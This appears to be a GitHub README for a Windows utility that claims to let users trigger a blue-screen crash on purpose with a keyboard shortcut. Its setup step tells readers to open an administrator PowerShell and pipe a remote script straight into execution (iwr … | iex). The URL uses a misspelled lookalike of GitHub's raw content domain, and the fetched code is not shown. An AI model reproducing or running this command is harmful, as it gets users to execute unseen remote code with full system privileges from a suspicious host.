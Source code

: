 # simpleWinBSOD
A simple setup for making Windows BSOD intentionally.

## to enable
open powershell as admin and run
```powershell
iwr "raw.githubusercontenet.com/ApplePair111/simpleWinBSOD/main/Main.bat" | iex
```
## to bsod
while pressing ctrl, double press scroll lock. It will bsod
